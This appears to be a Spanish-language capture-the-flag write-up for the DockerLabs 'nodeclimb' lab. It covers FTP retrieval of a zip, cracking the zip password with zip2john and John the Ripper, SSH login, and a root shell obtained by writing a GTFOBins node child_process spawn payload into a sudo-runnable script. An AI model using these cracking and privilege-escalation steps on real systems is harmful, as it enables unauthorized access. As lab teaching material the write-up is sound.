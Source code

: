 nmap: 21,22

![image](https://github.com/user-attachments/assets/f278b033-4ada-4db4-bd22-f1b64aea118c)

vamos al ftp y nos pasamos el zip

![image](https://github.com/user-attachments/assets/e7fd669e-f52c-4af9-be43-554efac6afdb)

y nos pide contraseña

![[zip2.png]]

ahora sacamos la contraseña con el comando

     zip2john secretitopicaron.zip

después 

     john has_zip


y da

![[jhon1.png]]

ahora sacamos el zip

![[password.png]]

y obtenemos la contraseña y usuario, entramos por el ssh, ahora entramos

![[dockerlabs/facil/nodeclimb/conexion.png]]

al hacer sudo -l podemos ver que hay un archivo script.js pero no tiene nada dentro, pero igual esta el node

![[dockerlabs/facil/nodeclimb/script.png]]

buscamos el node: https://gtfobins.github.io/gtfobins/node/
dentro del script.js que esta vacío colocamos este comando

     require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]}) 

y ejecutamos el script

     sudo /usr/bin/node /home/mario/script.js

![[dockerlabs/facil/nodeclimb/root.png]]

y somos root!
